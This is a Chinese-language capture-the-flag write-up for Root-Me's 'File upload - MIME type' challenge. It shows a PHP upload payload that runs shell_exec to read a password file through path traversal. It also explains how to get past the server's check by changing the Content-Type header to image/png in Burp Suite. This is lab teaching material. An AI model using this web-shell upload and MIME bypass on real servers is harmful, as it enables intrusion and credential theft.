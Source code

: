 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/file-upload-mime-type/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】的渗透思路是一样的，区别在于绕过方式。

上传一个文件测试一下，发现这次无法再利用双重后缀绕过了，只能上传图片后缀的文件。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/01.png)

题目提示是使用 MIME type 实现绕过。

那么构造 payloads 文件内容都是一样的，不过因为不能利用后缀绕过，所以文件名保持为 `exp.php` 即可：

```php
<?php
	// exp.php
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

使用 Burp Suite -> Repeater 进行上传，同时要修改 `Content-Type` 的值为 `image/png` 即可实现绕过（原值为 `application/octet-stream`）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/02.png)

上传成功后刷新 upload 分类页面，找到 `exp.php` 打开即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
